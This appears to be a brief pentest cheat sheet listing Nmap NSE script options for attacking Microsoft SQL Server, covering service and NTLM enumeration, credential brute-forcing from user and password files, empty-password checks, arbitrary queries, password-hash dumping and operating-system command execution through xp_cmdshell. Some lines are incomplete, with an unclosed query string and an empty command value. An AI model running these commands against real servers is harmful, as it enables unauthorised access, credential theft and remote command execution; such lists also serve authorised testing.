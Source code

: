 We are using this for MSSQL

--script=ms-sql-info

--script=ms-sql-ntlm-info --script-args=mssql.instance=port=1433

--script=ms-sql-brute --script-args userdb=file,passdb=file

--script=ms-sql-empty-password

--script=ms-sql-query --script-args mssql.username=user,mssql.password=pass,ms-sql-query.query="SELECT * FROM QUERY

--script=ms-sql-dump-hashes --script-args=mssql.username=user,mssql.password=pass

--script=ms-sql-xp-cmdshell --script-args mssql.username=user,mssql.password=pass,ms-sql-xp-cmdshell.cmd=
